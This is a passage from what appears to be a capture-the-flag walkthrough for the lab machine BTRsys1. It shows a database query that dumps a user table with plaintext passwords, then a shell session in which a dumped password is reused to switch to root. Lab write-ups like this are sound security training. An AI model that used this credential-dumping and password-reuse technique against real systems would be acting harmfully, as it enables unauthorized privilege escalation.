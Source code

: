 ```bash
select * from user;
+----+-------------+------------------+-----------+---------+-------------+---------+-------------+--------------+
| ID | Ad_Soyad    | Kullanici_Adi    | Parola    | BabaAdi | BabaMeslegi | AnneAdi | AnneMeslegi | KardesSayisi |
+----+-------------+------------------+-----------+---------+-------------+---------+-------------+--------------+
|  1 | ismail kaya | ikaya@btrisk.com | asd123*** | ahmet   | muhasebe    | nazli   | lokantaci   |            5 |
|  2 | can demir   | cdmir@btrisk.com | asd123*** | mahmut  | memur       | gulsah  | tuhafiyeci  |            8 |
+----+-------------+------------------+-----------+---------+-------------+---------+-------------+--------------+
2 rows in set (0.00 sec)
```

in `Parlo` column (which means password) we see a password, try to login to root acount with this password :

```bash
www-data@BTRsys1:/$ su root
su root
Password: asd123***

root@BTRsys1:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

yes, this is how you can get root on this machine :)

